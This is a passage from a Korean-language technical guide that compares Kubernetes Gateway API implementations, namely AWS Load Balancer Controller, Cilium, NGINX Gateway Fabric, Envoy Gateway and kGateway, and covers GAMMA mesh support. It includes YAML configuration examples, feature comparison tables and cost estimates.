- L4 레벨 자동 mTLS 암호화 제공
- 최소한의 리소스 사용 (평균 50MB 메모리)
- 모든 Pod 간 트래픽을 투명하게 가로채서 암호화

**2. waypoint proxy**

- 필요한 경우에만 네임스페이스별로 배포
- L7 정책 처리 (Envoy 기반)
- **Gateway API로 구성** (GAMMA 패턴)
- HTTPRoute, GRPCRoute 등으로 트래픽 제어



**트래픽 흐름**:
1. Pod A가 Pod B로 요청 전송
2. Node 1의 ztunnel이 트래픽을 가로채서 mTLS 암호화
3. Node 2의 ztunnel이 트래픽을 복호화
4. waypoint proxy가 L7 정책 적용 (재시도, 타임아웃, 헤더 변환 등)
5. Pod B로 트래픽 전달

:::info
Istio Ambient Mode는 Gateway API를 사용하여 waypoint proxy를 구성합니다. 이는 GAMMA 패턴의 실제 구현 사례이며, 사이드카 없이도 서비스 메시의 L7 기능을 제공합니다. 리소스 오버헤드는 사이드카 방식 대비 약 80% 감소합니다.
:::

#### Ambient Mode에서 Gateway API 활용

```yaml
# waypoint proxy를 Gateway API로 구성
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: payment-waypoint
  namespace: payment
  labels:
    istio.io/waypoint-for: service
spec:
  gatewayClassName: istio-waypoint
  listeners:
    - name: mesh
      port: 15008
      protocol: HBONE  # HTTP-Based Overlay Network Environment

---
# Service에 HTTPRoute 연결 (GAMMA 패턴)
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: payment-retry
  namespace: payment
spec:
  parentRefs:
    - group: ""
      kind: Service
      name: payment-service
  rules:
    - backendRefs:
        - name: payment-service
          port: 8080
      timeouts:
        request: 30s
      retry:
        attempts: 3
        codes: [500, 502, 503, 504]
```

### 4.5 GAMMA 지원 현황

다음은 주요 서비스 메시 구현체의 GAMMA 지원 현황입니다.

| 구현체 | GAMMA 지원 | 버전 | 비고 |
|--------|-----------|------|------|
| **Istio** | ✅ GA | v1.22+ | Ambient Mode + waypoint proxy로 완전한 GAMMA 지원 |
| **Cilium** | ✅ GA | v1.16+ | eBPF 기반 L7 정책, HTTPRoute attach to Service |
| **Linkerd** | ✅ Beta | v2.15+ | HTTPRoute 기반 메시 정책, Gateway API v1.2+ |
| **Envoy Gateway** | ⚠️ 제한적 | v1.7+ | 인그레스 중심, 메시는 간접 지원 (Istio 연동 필요) |
| **kGateway** | ✅ GA | v2.1+ | 통합 게이트웨이 (인그레스+메시+AI), HTTPRoute/GRPCRoute 메시 지원 |
| **Consul** | ⚠️ 개발 중 | v1.19+ | Gateway API 실험 단계, 기존 Consul Config Entries 병행 |

**범례**:
- ✅ GA: 프로덕션 사용 가능
- ✅ Beta: 기능 완성, 안정화 진행 중
- ⚠️ 제한적/개발 중: 부분 지원 또는 실험 단계

#### 구현체별 GAMMA 특징

**Istio Ambient Mode**
- waypoint proxy를 Gateway API로 구성
- 사이드카 없이 L7 정책 적용 가능
- 가장 성숙한 GAMMA 구현

**Cilium**
- eBPF를 활용한 고성능 L7 라우팅
- CiliumNetworkPolicy와 Gateway API 통합
- Hubble로 메시 트래픽 관측성 제공

**Linkerd**
- 경량 Rust 기반 프록시
- HTTPRoute 기반 메시 정책
- 자동 mTLS 및 제로 설정 보안

**kGateway (Solo.io)**
- API 게이트웨이 + 서비스 메시 통합
- AI/ML 워크로드 라우팅 지원
- Envoy 기반으로 확장성 우수

### 4.6 GAMMA의 장점

#### 1. 학습 곡선 단축

팀은 하나의 API(Gateway API)만 학습하면 인그레스와 메시 모두 관리할 수 있습니다.

#### 2. 설정 일관성

동일한 YAML 구조와 패턴으로 North-South/East-West 트래픽을 모두 관리합니다.

```yaml
# 인그레스 (North-South)
spec:
  parentRefs:
    - kind: Gateway
      name: external-gateway

# 메시 (East-West)
spec:
  parentRefs:
    - kind: Service
      name: backend-service
```

#### 3. 역할 기반 분리

인프라 팀은 Gateway를, 개발 팀은 HTTPRoute를 관리하는 명확한 책임 분리가 메시 트래픽에도 동일하게 적용됩니다.

#### 4. 벤더 중립성

여러 메시 구현체를 동일한 API로 관리할 수 있어 벤더 종속을 방지합니다.

---

## 5. 솔루션 비교 — AWS 네이티브 vs 오픈소스

이 섹션에서는 5가지 주요 Gateway API 구현체를 상세히 비교합니다. 각 솔루션의 특징, 강점, 약점을 파악하여 조직에 최적의 선택을 할 수 있도록 돕습니다.

### 5.1 AWS Native (LBC v3 + ALB/NLB)

#### 개요

**AWS Load Balancer Controller v3.0.0** (2026년 1월 GA)은 AWS의 관리형 로드 밸런서(ALB, NLB)를 Gateway API로 제어하는 솔루션입니다.

#### 핵심 특징

**L4 지원 (NLB)**
- TCPRoute: TCP 트래픽 라우팅
- TLSRoute: TLS SNI 기반 라우팅
- UDPRoute: UDP 트래픽 라우팅
- 초저지연 네트워크 트래픽에 최적

**L7 지원 (ALB)**
- HTTPRoute: HTTP/HTTPS 트래픽 라우팅
- GRPCRoute: gRPC 프로토콜 네이티브 지원
- 경로 기반, 헤더 기반, 쿼리 파라미터 기반 라우팅

**JWT 검증**
- ALB에서 네이티브 JWT 토큰 검증
- OAuth 2.0 Machine-to-Machine (M2M) 지원
- Cognito, Okta, Auth0 등과 통합 가능
- Lambda Authorizer 연동으로 커스텀 인증 로직 실행

**헤더 변환**
- 요청 헤더 추가, 수정, 삭제
- 응답 헤더 조작
- CORS 헤더 자동 관리

**AWS 통합**
- **AWS WAF**: 웹 애플리케이션 방화벽 (IP 필터링, Rate Limiting, SQL Injection 방어)
- **AWS Shield**: DDoS 공격 방어 (Standard 무료, Advanced 유료)
- **AWS Certificate Manager (ACM)**: TLS 인증서 자동 갱신
- **CloudWatch**: 메트릭 및 로그 통합
- **X-Ray**: 분산 추적 (APM)
- **Security Group**: VPC 레벨 네트워크 제어

**관리형 서비스 장점**
- 로드 밸런서 업그레이드, 패치, 가용성 관리는 AWS가 담당
- SLA 보장 (99.99% 가동률)
- 글로벌 엣지 네트워크 활용 가능
- 운영 부담 최소화

#### 제약사항

**mTLS 제한**
- ALB는 클라이언트 인증서 검증 지원 제한적
- 양방향 TLS가 필요한 경우 NLB + 자체 프록시 구성 필요

**Rate Limiting**
- 네이티브 Rate Limiting 없음
- AWS WAF의 Rate-Based Rule 필요 (추가 비용)

**AWS 종속**
- 멀티클라우드 환경에서 사용 불가
- AWS 외부 클러스터(온프레미스, 다른 클라우드)에서 사용 불가

#### 비용 구조

**ALB 비용**
- 시간당 요금: $0.0225/시간 (~$16.20/월)
- LCU (Load Balancer Capacity Unit): 트래픽, 연결, 규칙 복잡도에 따라 과금
- 중규모 트래픽: $50-200/월 예상

**NLB 비용**
- 시간당 요금: $0.0225/시간
- NLCU (Network Load Balancer Capacity Unit): 네트워크 처리량 기준
- 일반적으로 ALB보다 저렴

**AWS WAF 추가 비용**
- Web ACL: $5/월
- 규칙당: $1/월
- 요청당: $0.60/백만 요청
- IP Allowlist + Rate Limiting 사용 시 월 $20-100 추가

#### 적합한 사용 사례

- ✅ AWS 올인 환경 (모든 워크로드가 AWS EKS)
- ✅ 운영팀 규모가 작은 조직
- ✅ SLA 보장 및 관리형 서비스 선호
- ✅ AWS WAF/Shield로 보안 강화 필요
- ✅ 금융, 의료 등 규제 산업 (감사 추적, 컴플라이언스)
- ❌ 멀티클라우드 전략
- ❌ 비용 최적화가 최우선 목표

### 5.2 Cilium Gateway API

#### 개요

**Cilium v1.19**는 eBPF 기반 네트워킹 및 보안 플랫폼으로, Gateway API v1.3.0을 지원합니다.

#### 핵심 특징

**eBPF 기반 고성능**
- 커널 레벨에서 패킷 처리
- 사용자 공간 컨텍스트 스위칭 최소화
- 벤치마크: NGINX Ingress 대비 약 3배 처리량 향상 (참고: aws-aiops-eks-research-2025-2026.md CNI 벤치마크)
- 초당 수십만 개의 HTTP 요청 처리 가능

**ENI 모드 (VPC Native IP)**
- AWS EKS에서 VPC CNI와 통합
- 오버레이 네트워크 없음 → 네트워크 홉 감소
- Pod에 직접 VPC IP 할당 → Security Group 직접 적용 가능
- 네트워크 정책이 eBPF로 커널에서 직접 처리

**GAMMA 지원**
- HTTPRoute를 Service에 직접 연결하여 East-West 트래픽에 L7 정책 적용
- 서비스 메시 기능을 별도 사이드카 없이 제공
- eBPF로 메시 데이터플레인 구현 (Envoy/NGINX보다 가벼움)

**Hubble (실시간 관측성)**
- 네트워크 트래픽 실시간 가시성
- Service Map 자동 생성
- 프로토콜별 메트릭 (HTTP, gRPC, Kafka, DNS)
- Grafana 대시보드 제공
- 네트워크 장애 디버깅에 탁월

**BGP Control Plane v2**
- 하이브리드 클라우드 환경 지원
- 온프레미스 네트워크와 BGP 피어링
- 멀티클러스터 메시 구성 가능
- Load Balancer IP를 BGP로 광고

**CiliumNetworkPolicy**
- L3 (IP/CIDR)
- L4 (TCP/UDP 포트)
- L7 (HTTP 메서드, 경로, 헤더, gRPC 서비스)
- 모두 단일 정책 리소스로 통합 관리
- Kubernetes NetworkPolicy보다 훨씬 강력

#### 제약사항

**학습 곡선**
- eBPF 개념 이해 필요
- Cilium CLI 및 CRD 학습 필요
- Hubble UI/CLI 별도 학습

**Self-managed 노드 필요**
- AWS EKS의 경우 Managed Node Group 또는 Self-managed Node 필요
- EKS Auto Mode는 CNI 변경 불가 (VPC CNI 고정)
- Fargate는 Cilium 사용 불가

**커뮤니티 의존**
- Isovalent(Cisco) 엔터프라이즈 지원 있지만 기본은 커뮤니티 지원
- AWS처럼 SLA가 보장되지 않음
- 문제 발생 시 자체 해결 능력 필요

#### 비용 구조

**오픈소스 무료**
- Cilium 자체는 Apache 2.0 라이선스
- 추가 라이선스 비용 없음

**컴퓨팅 리소스**
- Cilium Agent: 각 노드에 DaemonSet (메모리 200-500MB)
- Cilium Operator: 3개 replica (메모리 100MB)
- Hubble Relay: 선택적 (메모리 100MB)
- 월 예상 비용: $30-100 (노드 컴퓨팅 리소스만)

**Isovalent Enterprise (선택)**
- 엔터프라이즈 지원, SLA, 보안 패치 우선 제공
- 가격은 협상 필요 (일반적으로 노드당 과금)

#### 적합한 사용 사례

- ✅ 고성능이 최우선 목표 (초당 수십만 요청 이상)
- ✅ 서비스 메시 통합 계획 (사이드카 없는 메시)
- ✅ 네트워크 정책 강화 필요 (L7 정책)
- ✅ 실시간 네트워크 관측성 필요 (Hubble)
- ✅ 하이브리드/멀티클러스터 환경
- ✅ eBPF 기술 도입 의지
- ❌ 운영 경험이 부족한 팀
- ❌ EKS Auto Mode 사용 환경

### 5.3 NGINX Gateway Fabric

#### 개요

**NGINX Gateway Fabric v2.4.1**은 F5가 유지보수하는 Gateway API 구현체로, 검증된 NGINX 엔진을 데이터플레인으로 사용합니다.

#### 핵심 특징

**NGINX 엔진**
- 20년 이상 검증된 고성능 웹 서버/프록시
- 전 세계 웹사이트의 30% 이상이 사용
- 안정성과 성능이 입증됨

**Gateway API v1.3.0+ 지원**
- HTTPRoute, GRPCRoute, TLSRoute 지원
- 경로 기반 라우팅, 헤더 매칭, 쿼리 파라미터 필터링
- 가중치 기반 트래픽 분할 (Canary 배포)

**기존 NGINX 지식 활용**
- NGINX Ingress Controller 경험이 있는 팀에 유리
- NGINX 설정 파일(nginx.conf) 개념 유사
- NGINX Plus 고객은 엔터프라이즈 기능 활용 가능

**NginxProxy CRD**
- NGINX Gateway Fabric의 확장 리소스
- Gateway API 표준으로 표현하기 어려운 NGINX 특화 기능 제공

**Rate Limiting**
```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: rate-limit
spec:
  rateLimiting:
    rate: 100r/s
    burst: 200
    noDelay: true
```

**IP 제어**
```yaml
spec:
  ipFiltering:
    allow:
      - "10.0.0.0/8"
      - "192.168.1.0/24"
    deny:
      - "203.0.113.0/24"
```

**세션 어피니티 (Session Persistence)**
```yaml
spec:
  sessionPersistence:
    cookieName: JSESSIONID
    cookieExpires: 3600
```

**F5 NGINX Plus (엔터프라이즈)**
- 유료 라이선스
- 동적 업스트림 재구성 (재시작 없음)
- 고급 헬스체크
- JWT 검증
- Active-Active 고가용성
- F5 엔터프라이즈 지원 (SLA 보장)

**멀티클라우드**
- AWS, GCP, Azure, 온프레미스 모두 동일하게 작동
- 클러스터 간 일관된 인그레스 설정 가능

#### 제약사항

**메시 통합 없음**
- Gateway API로 인그레스만 지원
- GAMMA (East-West 트래픽) 미지원
- 서비스 메시는 별도 솔루션(Istio, Linkerd) 필요

**L4 라우팅 제한**
- TCPRoute, UDPRoute 미지원
- TLSRoute만 지원 (SNI 기반 라우팅)
- TCP/UDP 트래픽은 별도 처리 필요

**커뮤니티 크기**
- Envoy Gateway, Cilium보다 커뮤니티 활동 적음
- GitHub 이슈 응답 속도가 상대적으로 느림

#### 비용 구조

**오픈소스 (무료)**
- Apache 2.0 라이선스
- 기본 기능 무료 사용

**컴퓨팅 리소스**
- NGINX Gateway Fabric Pods: 2-3개 replica (메모리 200MB)
- 월 예상 비용: $50-150

**NGINX Plus (선택)**
- 라이선스 비용: 인스턴스당 $2,500-5,000/년 (협상 가능)
- F5 엔터프라이즈 지원 포함

#### 적합한 사용 사례

- ✅ NGINX Ingress Controller 사용 경험 보유
- ✅ 멀티클라우드 환경 (AWS, GCP, Azure 동시 사용)
- ✅ 엔터프라이즈 지원 필요 (F5 SLA)
- ✅ 검증된 안정성 우선
- ✅ NGINX Plus 고객
- ❌ 서비스 메시 통합 계획
- ❌ TCP/UDP 라우팅 필요

### 5.4 Envoy Gateway

#### 개요

**Envoy Gateway v1.7.0** (2026년 2월)은 CNCF Envoy 프로젝트 산하의 Gateway API 구현체로, Envoy Proxy를 데이터플레인으로 사용합니다.

#### 핵심 특징

**Envoy Proxy 데이터플레인**
- CNCF 졸업 프로젝트 (Envoy)
- 산업 표준 프록시 (Istio, AWS App Mesh, Ambassador 등이 사용)
- 고급 L7 프로토콜 지원 (HTTP/1.1, HTTP/2, HTTP/3, gRPC)
- WebSocket, Server-Sent Events (SSE) 지원

**Gateway API v1.3.0 지원**
- HTTPRoute, GRPCRoute, TLSRoute 지원
- TCPRoute, UDPRoute 지원 (L4 트래픽)
- 경로, 헤더, 쿼리, 가중치 기반 라우팅

**확장 CRD — Policy Attachment 패턴**

Envoy Gateway는 Gateway API 표준을 확장하지 않고, Policy Attachment 패턴으로 고급 기능을 제공합니다.

**SecurityPolicy**
```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: SecurityPolicy
metadata:
  name: ext-auth
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  extAuth:
    http:
      service:
        name: auth-service
        port: 8080
      headersToBackend:
        - x-user-id
        - x-user-role
```

**BackendTrafficPolicy**
```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: BackendTrafficPolicy
metadata:
  name: rate-limit
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  rateLimit:
    type: Global
    global:
      rules:
        - limit:
            requests: 100
            unit: Second
  loadBalancer:
    type: ConsistentHash
    consistentHash:
      type: Header
      header: x-session-id
  circuitBreaker:
    maxConnections: 1024
    maxPendingRequests: 1024
```

**ClientTrafficPolicy**
```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: ClientTrafficPolicy
metadata:
  name: client-settings
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: Gateway
      name: production-gateway
  clientIPDetection:
    xForwardedFor:
      numTrustedHops: 1
  timeout:
    http:
      requestReceivedTimeout: 10s
  http3: {}  # HTTP/3 활성화
```

**동적 인프라 프로비저닝**
- Gateway 리소스 생성 시 자동으로 Envoy Proxy Deployment 생성
- 로드 밸런서 (AWS NLB/CLB, GCP GLB, MetalLB) 자동 프로비저닝
- 인프라 팀의 수동 개입 최소화

**고급 L7 기능**
- **mTLS**: 클라이언트 인증서 검증
- **ExtAuth**: 외부 인증 서비스 연동 (OAuth, OIDC, 커스텀)
- **Rate Limiting**: Global/Local Rate Limiting
- **Circuit Breaking**: 백엔드 과부하 방지
- **Retry & Timeout**: 세밀한 재시도 정책
- **Fault Injection**: 장애 시뮬레이션 (테스트용)

**Istio 생태계 호환**
- Envoy 기반이므로 Istio와 설정 패턴 유사
- Istio에서 Envoy Gateway로 마이그레이션 용이
- Envoy 커뮤니티 리소스 활용 가능

#### 제약사항

**상대적 신규 프로젝트**
- v1.0 GA는 2024년 초 (비교적 최근)
- 프로덕션 사례가 Cilium, Istio보다 적음
- 문제 발생 시 참고할 레퍼런스 제한적

**Envoy 복잡성**
- Envoy 설정은 강력하지만 학습 곡선이 가파름
- Policy Attachment 패턴 이해 필요
- 디버깅이 어려울 수 있음 (Envoy 내부 동작 이해 필요)

**자체 관리**
- 관리형 서비스 없음 (AWS LBC와 달리)
- 업그레이드, 패치, 모니터링을 직접 수행

#### 비용 구조

**오픈소스 무료**
- Apache 2.0 라이선스
- 추가 라이선스 비용 없음

**컴퓨팅 리소스**
- Envoy Gateway Controller: 3개 replica (메모리 200MB)
- Envoy Proxy Pods: Gateway당 2-3개 (메모리 100-200MB)
- 월 예상 비용: $50-150

#### 적합한 사용 사례

- ✅ CNCF 표준 준수가 중요
- ✅ Istio 또는 서비스 메시 통합 계획
- ✅ 복잡한 L7 정책 (mTLS, ExtAuth, Circuit Breaking)
- ✅ Envoy 커뮤니티 리소스 활용 희망
- ✅ 동적 인프라 프로비저닝 필요
- ❌ 빠른 프로덕션 안정성 검증 필요
- ❌ 운영 경험이 부족한 소규모 팀

### 5.5 kGateway (CNCF Sandbox)

#### 개요

**kGateway v2.1.0**은 CNCF Sandbox 프로젝트 (2025년 3월 승인)로, Solo.io가 2018년부터 개발해온 **가장 성숙한 Envoy 기반 게이트웨이**입니다.

#### 핵심 특징

**Envoy 기반 데이터플레인**
- Envoy Proxy 사용 (Envoy Gateway와 동일)
- Solo.io는 Envoy 메인테이너 중 하나 → 최신 Envoy 기능 빠르게 반영
- 8년 이상의 프로덕션 검증 (Gloo Edge 전신)

**Gateway API v1.4.0 지원**
- 가장 최신 Gateway API 버전 지원
- HTTPRoute, GRPCRoute, TLSRoute, TCPRoute, UDPRoute 모두 지원

**통합 게이트웨이 (4 in 1)**

kGateway는 단순한 인그레스 컨트롤러가 아니라 **통합 트래픽 관리 플랫폼**입니다.

1. **API Gateway**: 인그레스 트래픽 라우팅
2. **Service Mesh**: East-West 트래픽 관리 (GAMMA 지원)
3. **AI Gateway**: AI/ML 워크로드 라우팅
4. **MCP Gateway**: Model Context Protocol 트래픽 관리 (LLM 애플리케이션)

**AI/ML 워크로드 라우팅**

kGateway는 AI 추론 게이트웨이 기능을 네이티브로 제공합니다.

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: ml-model-route
spec:
  parentRefs:
    - name: ai-gateway
  rules:
    - matches:
        - path:
            value: /predict
      filters:
        - type: ExtensionRef
          extensionRef:
            group: ai.kgateway.io
            kind: ModelRouter
            name: model-selector
      backendRefs:
        - name: model-v1
          port: 8080
          weight: 80
        - name: model-v2
          port: 8080
          weight: 20  # A/B 테스트
```

**AI 라우팅 기능**:
- 모델 버전별 트래픽 분배 (A/B 테스트)
- GPU 리소스 기반 라우팅 (가용 GPU로 요청 전달)
- 요청 큐잉 및 배치 처리
- 추론 캐싱 (동일 입력에 대한 응답 캐시)
- Rate Limiting (모델별 요청 제한)

**MCP Gateway (LLM 애플리케이션)**

Model Context Protocol 트래픽을 라우팅합니다. LLM 애플리케이션이 외부 데이터 소스와 통신할 때 사용됩니다.

**JWT, OAuth, OIDC 네이티브 지원**

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: jwt-auth
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  jwt:
    providers:
      - name: keycloak
        issuer: https://keycloak.example.com/auth/realms/production
        audiences:
          - api-gateway
        jwksUri: https://keycloak.example.com/auth/realms/production/protocol/openid-connect/certs
        claimsToHeaders:
          - claim: sub
            header: x-user-id
```

**고급 기능**
- **Transformation**: 요청/응답 본문 변환 (JSON to XML 등)
- **GraphQL Gateway**: GraphQL 스키마 스티칭
- **WebAssembly (Wasm) 확장**: 커스텀 로직을 Wasm 모듈로 실행
- **External Processing**: gRPC를 통해 외부 서비스에 요청 처리 위임

#### 제약사항

**CNCF Sandbox 단계**
- 아직 Incubating/Graduated가 아님
- 장기적 CNCF 지원 불확실성 (하지만 Solo.io 백그라운드 강력)

**AI 기능 초기 단계**
- AI/ML 라우팅 기능은 비교적 최근 추가됨
- 프로덕션 사례가 제한적
- 문서가 다른 기능 대비 부족

**복잡한 아키텍처**
- 통합 게이트웨이 개념이 넓어서 학습 곡선 높음
- 필요하지 않은 기능(AI Gateway)도 포함된 무거운 이미지
- 작은 규모 프로젝트에는 오버엔지니어링 가능

#### 비용 구조

**오픈소스 무료**
- Apache 2.0 라이선스
- 커뮤니티 버전 무료

**컴퓨팅 리소스**
- kGateway Controller: 3개 replica (메모리 300MB)
- Envoy Proxy Pods: Gateway당 2-3개 (메모리 150-250MB)
- 월 예상 비용: $50-150

**Solo.io Gloo Enterprise (선택)**
- kGateway의 상용 버전
- 멀티테넌시, RBAC, 고급 보안 기능
- Solo.io 엔터프라이즈 지원, SLA
- 가격은 협상 필요

#### 적합한 사용 사례

- ✅ AI/ML 워크로드 라우팅 필요
- ✅ 통합 트래픽 관리 플랫폼 구축 (API+메시+AI)
- ✅ 미래 지향적 아키텍처 (LLM 애플리케이션)
- ✅ GraphQL Gateway 필요
- ✅ WebAssembly 확장 활용 희망
- ❌ 단순한 인그레스만 필요한 경우
- ❌ 안정성 검증이 최우선인 보수적 환경

### 5.6 기능 비교 매트릭스

다음은 5가지 솔루션의 종합 비교표입니다. 이 표를 통해 각 솔루션의 강점과 약점을 한눈에 파악할 수 있습니다.

| 비교 항목 | AWS Native (LBC v3) | Cilium | NGINX Fabric | Envoy Gateway | kGateway |
|----------|---------------------|--------|-------------|---------------|----------|
| **기본 정보** | | | | | |
| 제공사 | AWS | Isovalent/Cisco | F5/NGINX | CNCF Envoy | CNCF (Solo.io) |
| 데이터플레인 | AWS ALB/NLB (관리형) | Envoy + eBPF | NGINX | Envoy Proxy | Envoy Proxy |
| 라이선스 | AWS 서비스 | Apache 2.0 | Apache 2.0 / 상용 | Apache 2.0 | Apache 2.0 |
| CNCF 상태 | - | CNCF 졸업 (eBPF) | - | CNCF 졸업 (Envoy) | CNCF Sandbox |
| 성숙도 | ✅ 높음 (AWS 검증) | ✅ 높음 (8년+) | ✅ 높음 (NGINX 20년+) | ⚠️ 중간 (2년) | ✅ 높음 (8년+) |
| **Gateway API** | | | | | |
| 지원 버전 | v1.3 | v1.3 | v1.3+ | v1.3 | v1.4 |
| HTTPRoute | ✅ | ✅ | ✅ | ✅ | ✅ |
| GRPCRoute | ✅ | ✅ | ✅ | ✅ | ✅ |
| TLSRoute | ✅ (NLB) | ✅ | ✅ | ✅ | ✅ |
| TCPRoute | ✅ (NLB) | ⚠️ Experimental | ❌ | ✅ | ✅ |
| UDPRoute | ✅ (NLB) | ⚠️ Experimental | ❌ | ✅ | ✅ |
| **핵심 기능** | | | | | |
| TLS Termination | ✅ ACM 통합 | ✅ Secret | ✅ Secret | ✅ Secret | ✅ Secret |
| mTLS | ⚠️ 제한적 | ✅ | ✅ | ✅ | ✅ |
| Rate Limiting | ❌ WAF 필요 | ✅ L7 Policy | ✅ NginxProxy | ✅ BackendTrafficPolicy | ✅ RouteOption |
| Header 조작 | ✅ LBC v3 | ✅ | ✅ | ✅ | ✅ |
| URL Rewrite | ✅ | ✅ | ✅ | ✅ | ✅ |
| 인증/인가 | Lambda/Cognito/JWT | L7 Policy | OIDC Policy | ExtAuth/OIDC | JWT/OAuth/OIDC |
| Canary 배포 | ✅ Weight | ✅ Weight | ✅ Weight | ✅ Weight | ✅ Weight |
| 세션 어피니티 | ✅ TG Stickiness | ⚠️ 수동 | ✅ Upstream Config | ✅ Session Persistence | ✅ RouteOption |
| **보안** | | | | | |
| WAF 통합 | ✅ AWS WAF | ❌ | ⚠️ ModSecurity | ⚠️ 별도 구성 | ⚠️ 별도 구성 |
| DDoS 보호 | ✅ AWS Shield | ⚠️ 수동 | ⚠️ 수동 | ⚠️ 수동 | ⚠️ 수동 |
| IP 제어 | SG + WAF | CiliumNetworkPolicy | NginxProxy | SecurityPolicy | RouteOption |
| 클라이언트 인증서 | ⚠️ 제한적 | ✅ | ✅ | ✅ | ✅ |
| **성능** | | | | | |
| 처리량 | AWS 관리형 (고성능) | ✅✅✅ 최고 (eBPF) | ✅✅ 높음 | ✅✅ 높음 | ✅✅ 높음 |
| 지연시간 | 낮음 | ✅ 가장 낮음 | 낮음 | 낮음 | 낮음 |
| 리소스 사용 | - (관리형) | ✅ 가장 낮음 | 중간 | 중간 | 중간 |
| **운영** | | | | | |
| 스케일링 | AWS Auto Scaling | DaemonSet | HPA/수동 | HPA/수동 | HPA/수동 |
| 고가용성 | AWS 내장 HA | DaemonSet | Pod + PDB | Pod + PDB | Pod + PDB |
| 모니터링 | CloudWatch | Hubble + Prometheus | Prometheus | Prometheus | Prometheus |
| 운영 부담 | ✅ 낮음 | 중간 | 중간 | 중간 | 중간 |
| SLA 보장 | ✅ 99.99% | ❌ | ⚠️ F5 지원 시 | ❌ | ⚠️ Solo 지원 시 |
| **메시 통합** | | | | | |
| GAMMA | ❌ | ✅ GA | ❌ | ⚠️ 제한적 | ✅ GA |
| Service Mesh | ❌ | ✅ (네이티브) | ❌ | Istio 호환 | ✅ (네이티브) |
| East-West | ❌ | ✅ eBPF | ❌ | ⚠️ | ✅ |
| 사이드카 불필요 | - | ✅ | - | ❌ | ⚠️ |
| **고급 기능** | | | | | |
| Circuit Breaking | ❌ | ✅ | ⚠️ 제한적 | ✅ | ✅ |
| Fault Injection | ❌ | ✅ | ❌ | ✅ | ✅ |
| Retry 정책 | ⚠️ 기본 | ✅ | ✅ | ✅ | ✅ |
| Timeout 정책 | ✅ | ✅ | ✅ | ✅ | ✅ |
| GraphQL Gateway | ❌ | ❌ | ❌ | ❌ | ✅ |
| WebAssembly | ❌ | ❌ | ❌ | ⚠️ 실험적 | ✅ |
| **AI/ML** | | | | | |
| 추론 라우팅 | ❌ | ❌ | ❌ | ❌ | ✅ |
| MCP Gateway | ❌ | ❌ | ❌ | ❌ | ✅ |
| 모델 A/B 테스트 | ⚠️ Weight만 | ⚠️ Weight만 | ⚠️ Weight만 | ⚠️ Weight만 | ✅ 네이티브 |
| **관측성** | | | | | |
| 메트릭 | CloudWatch | Hubble + Prometheus | Prometheus | Prometheus | Prometheus |
| 로그 | CloudWatch Logs | Loki/ELK | ELK | ELK | ELK |
| 추적 | X-Ray | Jaeger/Zipkin | Jaeger | Jaeger | Jaeger |
| Service Map | ❌ | ✅ Hubble | ❌ | ⚠️ 별도 | ⚠️ 별도 |
| **비용** | | | | | |
| 기본 비용 | ALB 시간당 + LCU | 컴퓨팅 리소스 | 컴퓨팅 리소스 | 컴퓨팅 리소스 | 컴퓨팅 리소스 |
| 월 예상 (중규모) | $50-200 | $30-100 | $50-150 | $50-150 | $50-150 |
| 벤더 종속 | 높음 (AWS) | 낮음 | 낮음 | 없음 | 낮음 |
| 멀티클라우드 | ❌ | ✅ | ✅ | ✅ | ✅ |
| 온프레미스 | ❌ | ✅ | ✅ | ✅ | ✅ |
| **커뮤니티** | | | | | |
| GitHub Stars | - | 19k+ (Cilium) | 2k+ | 5k+ | 4k+ (Gloo) |
| 활발도 | AWS 공식 | ✅ 매우 활발 | 중간 | ✅ 활발 | ✅ 활발 |
| 문서 품질 | ✅ 우수 | ✅ 우수 | 중간 | ✅ 우수 | ✅ 우수 |
| 프로덕션 사례 | ✅ 많음 | ✅ 많음 | 중간 | 중간 | ✅ 많음 |

### 5.7 장단점 종합 비교

#### AWS Native (LBC v3 + ALB/NLB)

**장점**
- ✅ 관리형 서비스 → 운영 부담 최소화
- ✅ AWS WAF/Shield/ACM 원클릭 통합
- ✅ JWT 네이티브 검증 (OAuth 2.0 M2M)
- ✅ SLA 보장 (99.99% 가동률)
- ✅ CloudWatch/X-Ray 통합 관측성
- ✅ 빠른 프로덕션 적용 가능
- ✅ Security Group과 VPC 네이티브 통합

**단점**
- ❌ AWS 종속 (멀티클라우드 불가)
- ❌ mTLS 제한적 (클라이언트 인증서 검증 어려움)
- ❌ Rate Limiting에 AWS WAF 비용 추가
- ❌ 서비스 메시 통합 불가 (GAMMA 미지원)
- ❌ 커스터마이징 제한적

**최적 사용 사례**
- AWS 올인 환경 (모든 워크로드가 AWS EKS)
- 운영팀 규모가 작은 조직 (5명 이하)
- SLA 보장이 필수인 환경
- 금융, 의료 등 규제 산업 (감사 추적, 컴플라이언스)
- 빠른 마이그레이션이 필요한 경우

---

#### Cilium Gateway API

**장점**
- ✅ eBPF 최고 성능 (NGINX Ingress 대비 3배 처리량)
- ✅ ENI 모드 VPC 네이티브 IP
- ✅ Hubble 실시간 네트워크 관측성 (Service Map)
- ✅ GAMMA 메시 통합 (사이드카 없음)
- ✅ CiliumNetworkPolicy L3-L7 통합 정책
- ✅ BGP Control Plane v2 (하이브리드 환경)
- ✅ 리소스 오버헤드 최소

**단점**
- ❌ 학습 곡선 높음 (eBPF 개념 이해 필요)
